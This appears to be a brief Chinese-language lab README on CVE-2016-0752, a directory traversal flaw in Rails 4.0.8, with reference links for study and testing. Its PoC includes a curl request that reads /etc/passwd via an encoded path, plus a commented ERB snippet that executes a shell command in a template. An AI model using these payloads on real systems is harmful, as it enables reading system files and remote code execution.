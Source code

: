 ### CVE-2016-0752 - rails 框架目录遍历漏洞

测试镜像

* src/ruby-rails/4.0.8/

参考链接

* [forced-request/rails-rce-cve-2016-0752 - Exploiting CVE-2016-0752](https://github.com/forced-request/rails-rce-cve-2016-0752)
* [Rails Dynamic Render to RCE (CVE-2016-0752)](https://nvisium.com/resources/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html)

Poc

```
# 包含文件
curl 'http://127.0.0.1/users/%2fetc%2fpasswd'

# <%= `cp /etc/passwd /tmp` %>
# 还可以在模板里执行命令
```

